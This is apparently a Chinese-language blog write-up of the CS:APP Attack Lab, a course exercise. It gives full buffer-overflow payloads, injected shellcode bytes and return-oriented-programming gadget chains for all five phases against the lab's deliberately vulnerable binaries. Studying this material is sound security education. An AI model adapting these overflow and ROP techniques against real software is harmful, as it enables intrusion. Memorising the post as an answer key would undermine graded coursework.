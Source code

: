 ```yaml
---
layout: post
title: CS:APP Lab 3 - Attack Lab
date: 2018-04-04 00:01:00
tags:
  - CSAPP
categories:
  - 计算机基础
---
```


<!-- more -->

## Phase 1

目标是利用 Buffer Overflow 实现 Code Injection ，在进入 `getbuf()` 函数之后，把 `touch1()` 的地址注入到栈帧最底，使得返回时的跳转指向 `touch1()`。

`objdump -d ctarget` 查看 `getbuf()` 内容就可以看到 `BUFFER_SIZE` 的值是 `0x28`，你拿到的可能会不一样。

```x86asm
<getbuf>:
sub $0x28,%rsp ; <- 在这里
mov %rsp,%rdi
callq 401a40 <Gets>
mov $0x1,%eax
add $0x28,%rsp
retq
```

`touch1()` 的位置刚好就在这个函数的下面，那么就只要在前面填充足 40 个任意字符（换行符 `\n` 和 `\0` 除外），再把地址按小端序放进去就好了：

```text
ff ff ff ff ff ff ff ff
ff ff ff ff ff ff ff ff
ff ff ff ff ff ff ff ff
ff ff ff ff ff ff ff ff
ff ff ff ff ff ff ff ff
c0 17 40 00 00 00 00 00
```

## Phase 2

目标不仅要跳转到 `touch2()` 还要把 `cookie` 的值放进参数里，也就是说要写一段语句把参数丢进去，那么过程也比较明确：

`getbuf()` 返回时跳转至栈顶
执行注入的指令，把 `cookie` 给第一个参数也就是 `%rdi`
执行下一个注入的指令，也就是 `ret`，使其跳转至 `touch2()`
在 `getbuf()` 返回时，返回的地址要设定成刚刚栈顶的值，栈指针也会增加 8。在注入的指令返回时，返回的地址紧邻的位置上。栈顶的位置需要用 `gdb` 运行代码至 `getbuf()` 查看，最后的答案就有了：

```text
48 c7 c7 fa 97 b9 59 c3 # mov 0x59b997fa, %rdi # ret
ff ff ff ff ff ff ff ff # padding
ff ff ff ff ff ff ff ff
ff ff ff ff ff ff ff ff
ff ff ff ff ff ff ff ff
78 dc 61 55 00 00 00 00 # address of injected code
ec 17 40 00 00 00 00 00 # address of touch2()
```

## Phase 3

目标不仅要跳转到 `touch3()` 还要把 `cookie` 作为 16 进制显示的字符串传作参数。考虑到字符串的长度有 8 个字节，还需要跟一个 `\0`，所以寄存器是放不下了，那么继续覆盖栈空间，并把对应地址给 `%rdi`。对照 ASCII 表把字符串转成十六进制之后答案就有了：

```text
48 8d 7c 24 08 c3 ff ff # lea 8(%rsp), %rdi # ret
ff ff ff ff ff ff ff ff # padding
ff ff ff ff ff ff ff ff
ff ff ff ff ff ff ff ff
ff ff ff ff ff ff ff ff
78 dc 61 55 00 00 00 00 # address of injected code
fa 18 40 00 00 00 00 00 # address of touch3()
35 39 62 39 39 37 66 61 00 # string of cookie
```

这里字符串的位置不一定要放在最后，放在中间也可以，只要传入正确的地址即可。注意这里的字符串并不需要翻转。

## Phase 4

这次设置了栈内不可以执行代码的限制，用 ROP (Return-Oriented Programming) 解决问题。
根据 `writeup` 里的提示，要在 `start_farm()` 和 `end_farm()` 之间寻找解决方案，需要用到的主要指令只有两个 `movq` 和 `popq`。那么直接 `objdump -d rtarget` 之后在指定范围内搜索对应的字节码，要注意 `popq %rsp` 不太适用。找到对应的指令后直接跟着 `c3` 或者跟着若干 `90` 然后接着是 `c3` 的话都可用。

搜索过后找到了下面两个函数满足要求：

```x86 asm
00000000004019a0 <addval_273>:
4019a0: 8d 87 48 89 c7 c3 lea -0x3c3876b8(%rdi),%eax
4019a6: c3 retq

00000000004019a7 <addval_219>:
4019a7: 8d 87 51 73 58 90 lea -0x6fa78caf(%rdi),%eax
4019ad: c3 retq
```

那么答案就已经有了：

```text
ff ff ff ff ff ff ff ff # padding
ff ff ff ff ff ff ff ff
ff ff ff ff ff ff ff ff
ff ff ff ff ff ff ff ff
ff ff ff ff ff ff ff ff
ab 19 40 00 00 00 00 00 # jump to run `popq %rax`
fa 97 b9 59 00 00 00 00 # cookie for popq
a2 19 40 00 00 00 00 00 # jump to run `movq %rax, %rdi`
ec 17 40 00 00 00 00 00 # address of touch2()
```

如果不按照题目要求，从其他地方寻找指令可以更简单，直接搜索 `5f c3`（也就是 `popq %rd`i`和`ret`）即可，当然建议按照题目要求做。这里给出一个答案：

```text
ff ff ff ff ff ff ff ff # padding
ff ff ff ff ff ff ff ff
ff ff ff ff ff ff ff ff
ff ff ff ff ff ff ff ff
ff ff ff ff ff ff ff ff
1b 14 40 00 00 00 00 00 # jump to run `popq %rdi`
fa 97 b9 59 00 00 00 00 # cookie for popq
ec 17 40 00 00 00 00 00 # address of touch2()
```

## Phase 5

这个和上面一个差别不大，但是确实有个头疼的地方，就是利用 `movq` 和 `popq` 组合出来答案的语句在 `farm` 中并找不到可以用的片段。字符串的位置不能紧跟在跳转地址后面，会让下一次跳转不按预期执行，除非能找到连续 `pop` 到超过字符串位置的片段来利用，显然，可惜，找不到。那么只能在地址的上做运算。

搜索过后能够确定，只有 `movq %rsp, %rax` 和 `movq %rax, %rdi` 可以用，那么只能对 `%rax` 或者 `%rdi` 做一些加减操作，或者考虑用 `lea` 指令。但是这些并没有在 `writeup` 中给出对应的字节码。

那么答案最后可以是：

```text
ff ff ff ff ff ff ff ff # padding
ff ff ff ff ff ff ff ff
ff ff ff ff ff ff ff ff
ff ff ff ff ff ff ff ff
ff ff ff ff ff ff ff ff
06 1a 40 00 00 00 00 00 # jump to run `movq %rsp, %rax`
d8 19 40 00 00 00 00 00 # jump to run `add 0x37, %al`
a2 19 40 00 00 00 00 00 # jump to run `movq %rax, %rdi`
fa 18 40 00 00 00 00 00 # address of touch3()
ff ff ff ff ff ff ff ff
ff ff ff ff ff ff ff ff
ff ff ff ff ff ff ff ff
ff ff ff ff ff ff ff 35
39 62 39 39 37 66 61 00 # string of cookie
```
